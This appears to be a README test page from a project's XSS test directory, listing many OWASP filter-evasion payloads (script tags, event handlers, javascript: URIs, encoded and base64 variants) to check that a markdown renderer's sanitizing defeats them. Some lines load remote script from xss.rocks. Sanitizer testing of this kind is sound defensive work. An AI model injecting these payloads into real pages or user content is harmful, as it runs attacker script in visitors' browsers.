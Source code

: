 ## XSS testing

The pages in this dir try to smuggle script execution into the stuff
rendered in your browser in various ways.

Unfortunately there are a LOT of ways modern browsers will let you do
that.  Here we try a bunch of them and see if we are successful in
defeating them with our preprocessing.  The attack methods came from

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

This page is checking showdown rendering.

Any successful script executions pop up an alert box.  Seeing some strange
renderings just talking about scripts on this page and no popups counts as
a success...

<script>alert("xss/README.md: trivial script");</script>
https://something.com
https://something.com' onmouseover='alert("xss/README.md: onmouseover in anonymous link")'
https://something.com" onmouseover="alert('xss/README.md: onmouseover in anonymous link')"
https://something.com#' onmouseover='alert("xss/README.md: onmouseover in anonymous link")'
https://something.com#" onmouseover="alert('xss/README.md: onmouseover in anonymous link')"
https://something.com?x=' onmouseover='alert("xss/README.md: onmouseover in anonymous link")'
https://something.com?x=" onmouseover="alert('xss/README.md: onmouseover in anonymous link')"
https://something.com&quot; onmouseover='alert("xss/README.md: onmouseover in anonymous link")&quot;
https://something.com&#34 onmouseover='alert("xss/README.md: onmouseover in anonymous link")&quot;
https://something.com&amp;#34 onmouseover='alert("xss/README.md: onmouseover in anonymous link")&quot;



x <a name="n"
href="javascript:alert('xss/README.md: js in a href')">click me</a>

## <script>alert("xss/README.md: trivial script in header");</script>
## javascript:alert('xss/README.md: js: in header')

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
<SCRIPT SRC=//xss.rocks/.j>
<IMG SRC="javascript:alert('XSS')"
<iframe src=http://xss.rocks/scriptlet.html <
\";alert('XSS');//
</script><script>alert('XSS');</script>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<svg/onload=alert('XSS')>
Set.constructor`alert\x28document.domain\x29```

<BODY ONLOAD=alert('XSS')>

<BGSOUND SRC="javascript:alert('XSS');">
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
<XSS STYLE="xss:expression(alert('XSS'))">

¼script¾alert(¢XSS¢)¼/script¾

<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<!--[if gte IE 4]>
 <SCRIPT>alert('XSS');</SCRIPT>
 <![endif]-->

 <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>

<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>


<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>

 <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
<script>alert("xss");</script>
%3Cscript>alert("xss");</script>
&ltscript>alert("xss");</script>
&lt;script>alert("xss");</script>
&LTscript>alert("xss");</script>
&LT;script>alert("xss");</script>
&#60script>alert("xss");</script>
&#060script>alert("xss");</script>
&#0060script>alert("xss");</script>
&#00060script>alert("xss");</script>
&#000060script>alert("xss");</script>
&#0000060script>alert("xss");</script>
&#60;script>alert("xss");</script>
&#060;script>alert("xss");</script>
&#0060;script>alert("xss");</script>
&#00060;script>alert("xss");</script>
&#000060;script>alert("xss");</script>
&#0000060;script>alert("xss");</script>
&#x3cscript>alert("xss");</script>
&#x03cscript>alert("xss");</script>
&#x003cscript>alert("xss");</script>
&#x0003cscript>alert("xss");</script>
&#x00003cscript>alert("xss");</script>
&#x000003cscript>alert("xss");</script>
&#x3c;script>alert("xss");</script>
&#x03c;script>alert("xss");</script>
&#x003c;script>alert("xss");</script>
&#x0003c;script>alert("xss");</script>
&#x00003c;script>alert("xss");</script>
&#x000003c;script>alert("xss");</script>
&#X3cscript>alert("xss");</script>
&#X03cscript>alert("xss");</script>
&#X003cscript>alert("xss");</script>
&#X0003cscript>alert("xss");</script>
&#X00003cscript>alert("xss");</script>
&#X000003cscript>alert("xss");</script>
&#X3c;script>alert("xss");</script>
&#X03c;script>alert("xss");</script>
&#X003c;script>alert("xss");</script>
&#X0003c;script>alert("xss");</script>
&#X00003c;script>alert("xss");</script>
&#X000003c;script>alert("xss");</script>
&#x3Cscript>alert("xss");</script>
&#x03Cscript>alert("xss");</script>
&#x003Cscript>alert("xss");</script>
&#x0003Cscript>alert("xss");</script>
&#x00003Cscript>alert("xss");</script>
&#x000003Cscript>alert("xss");</script>
&#x3C;script>alert("xss");</script>
&#x03C;script>alert("xss");</script>
&#x003C;script>alert("xss");</script>
&#x0003C;script>alert("xss");</script>
&#x00003C;script>alert("xss");</script>
&#x000003C;script>alert("xss");</script>
&#X3Cscript>alert("xss");</script>
&#X03Cscript>alert("xss");</script>
&#X003Cscript>alert("xss");</script>
&#X0003Cscript>alert("xss");</script>
&#X00003Cscript>alert("xss");</script>
&#X000003Cscript>alert("xss");</script>
&#X3C;script>alert("xss");</script>
&#X03C;script>alert("xss");</script>
&#X003C;script>alert("xss");</script>
&#X0003C;script>alert("xss");</script>
&#X00003C;script>alert("xss");</script>
&#X000003C;script>alert("xss");</script>
\x3cscript>alert("xss");</script>
\x3Cscript>alert("xss");</script>
\u003cscript>alert("xss");</script>
\u003Cscript>alert("xss");</script>

